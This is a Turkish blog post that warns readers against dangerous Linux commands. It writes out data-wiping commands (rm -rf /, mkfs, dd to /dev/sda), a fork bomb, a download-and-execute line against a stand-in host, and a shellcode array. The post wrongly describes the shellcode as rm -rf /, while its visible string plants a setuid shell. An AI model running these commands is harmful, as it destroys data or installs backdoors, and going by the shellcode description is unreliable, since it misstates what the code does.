 ```yaml
---
layout: post
title: "Ölümcül Linux Komutları"
date: 2013-05-02 16:55
comments: true
categories:
---
```

Bilindiği üzere linux çok güçlü bir komut kümesine sahip. Tabii ki büyük güç yanında büyük bir sorumlulukta getiriyor.(bknz. Spiderman)  
Ne yaptığınızdan emin değilseniz kullanmamanız gereken komutlar olsun ya da çok kullandığınız bir komutun yanlış kullanımı olsun bunlar
sisteminize büyük zarar verebilir. Komut satırı kullanma aşkıyla internette gördüğünüz her komutu direk kopyala yapıştır yaparsanız
sisteminiz yine göçebilir.  Şimdi biraz bu "ölümcül" komutlardan bahsedelim.  
## rm -rf /

`rm` komutunu genellikle çok fazla kullanırız. Mahsum bir dosya/dizin silmeye yarayan komut. Ama yukardaki argümanlar `rm`'nin
adeta bir canavara dönüşmesini sağlıyor. Sisteminizde ne var ne yok herşeyi siliyor.( Buna harddiskiniz ve o anda bağlı flashdisklerde dahil )
Komutu incelersek:  
`rm`  => silme işini yapıyor.  
`-rf` => `rm`'nin öz yineli bir şekilde çalışmasını ve hiç bir uyarı vermeden dizinler ve dizinlerin içindeki dizin ve dosyaları silmesini sağlıyor.  
`/`   => silmeye kök diziden başlanacağını belirtiyor.  
Bu komutu yazıp enter'e basarsanız bütün bilgilerinizin silinmesini neden olursunuz.  
**rm -rf ~** bu komut ise benzer şekilde ev dizininizin silinmesine neden olur.  
Sonuç: `rm` komutunu kullanırken dikkatli olmak lazım.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p
    release */
    = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
    “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
    “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
    “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
    “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
    “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
    “\x6e\x2f\x73\x68\x00\x2d\x63\x00″
    “cp -p /bin/sh /tmp/.beyond; chmod 4755
    /tmp/.beyond;”;

Yukardaki gibi herhangi bir acayip kodu internete bir yerde görüp ne işe yarıyor diye de olsa makinanızda çalıştırmayın.  
Neden mi? Çünkü yukardaki kod **rm -rf /** in HEX halidir. Yine sisteminize elveda diyebilirsiniz.
## :(){ :|: & };:
Yukardaki komuta baktığınızda ilk başta bir çeşit `smiley` kombosu olarak görebilirsiniz. Ama bu bir fonksiyon hemde `bash`
fonksiyonudur. Bu haliyle anlaşılması biraz zor, birde bu haline bakalım:
```  bash
    :() {
        :|:&
    };
    :
```
Şimdi biraz daha açık şekilde gözküyor. `:` fonksiyon ismi(fonksiyon isimleri `bash`te böyle yazılabiliyor). Bu fonksiyon sürekli
kendisinin bir kopyasını üretiyor. Belleğinizi ve CPU'nuzu doldurup makinanızın donmasını ve ya kitlenmesini sağlıyor.  
`fork bomb` denilen bu tür fonksiyonlar her dilde yazılabilir. Tipik DOS(Denial of Service) ataklarıdır.  
Ayrıntılı bilgi için:[Fork Bombaları](http://en.wikipedia.org/wiki/Fork_bomb)

## mkfs.ext4 /dev/sda1
Bu komutumuzda windows işletim sistemindeki  `format c:\` komutu benzeri. Belirtilen (burada `/dev/sda1` olan) harddisk bölümünü formatlıyor.  
`mkfs.ext4` => `ext4` dosya sistemine sahip bir bölüm oluşturur.  
`/dev/sda1`  =>  hedef harddisk bölümü.  

## \[program\] > /dev/sda
Bu komutumuz ise herhangi bir programın çıktısını direk olarak harddisk bölümüne yazar.  
Burada `>` karakteri programın çıktısını `dev/sda` ya göndererek oradaki bilgilerin üzerine yazmasını sağlar.

## dd if=/dev/random of=/dev/sda
Yine yukardaki komuta benzer olarak bu komutta harddiskin verilen bölümüne yazma yapar.  
`dd` => kopyalama işlemini gerçekleştirir.  
`if=/dev/random` => kaynak olarak `/dev/random(rastgele veriler)` al.  
`of=/dev/sda`    => hedef olarak `/dev/sda` al.  

## mv ~ /dev/null
`/dev/null` linux işletim sisteminin tabir-i caizse kara deliğidir. Ne atarsanız yutup yok eder.  
`mv` => taşıma işlemini yapam komut  
`~`  => ev dizini  
`/dev/null` => taşınacak yer  
Yani ev dizinin deki bütün dosyaları alıp götürüp kara deliğe atıyorsunuz.  

## wget http://virus.com/virusludosya -O – | sh
Yukardaki komut ise bir web sitesinden bir program indirip direk çalıştırıyor. Çok tehlikeli bir yaklaşım. Kesinlikle güvenmediğiniz ve ya
ne olduğundan emin olmadığınız dosyalar üzerinde denemeyin.  
`wget` => dosya indirme komutu  
`http://virus.com/virusludosya -O -` => indirilicek dosya  
`| sh`  => çalıştıracak program  

[kaynak](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
